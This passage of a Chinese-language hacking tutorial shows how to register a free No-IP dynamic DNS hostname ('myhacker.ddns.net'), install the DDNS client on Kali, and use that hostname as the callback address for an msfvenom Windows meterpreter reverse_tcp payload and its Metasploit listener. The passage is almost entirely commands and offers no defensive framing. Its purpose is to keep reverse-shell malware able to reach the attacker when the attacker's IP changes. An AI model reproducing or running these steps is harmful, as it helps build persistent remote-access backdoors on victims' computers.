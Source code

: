 ### 4.1 注册域名

* 注册 [No-IP](https://www.noip.com/)
* 登录后台 → 添加主机名 → 选择免费域名（如 `myhacker.ddns.net`）
* 记录下 **域名** 和账号密码

### 4.2 安装 DDNS 客户端（Kylin / Kali）

```bash
# 下载 No-IP Linux 客户端
wget http://www.no-ip.com/client/linux/noip-duc-linux.tar.gz
tar zxvf noip-duc-linux.tar.gz
cd noip-2.1.9-1

# 编译安装
make
sudo make install

# 配置（输入你的 No-IP 账号、密码、更新间隔）
sudo /usr/local/bin/noip2 -C

# 启动 DDNS 客户端
sudo /usr/local/bin/noip2
```

### 4.3 验证

```bash
ping myhacker.ddns.net
```

如果能解析到你的公网 IP，说明绑定成功。

---

## 5. 在 Metasploit 中替换固定 IP

假设你原来这样生成 Payload：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=123.45.67.89 LPORT=4444 -f exe -o payload.exe
```

改成域名：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myhacker.ddns.net LPORT=4444 -f exe -o payload.exe
```

监听时同样替换：

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST myhacker.ddns.net
set LPORT 4444
run
```
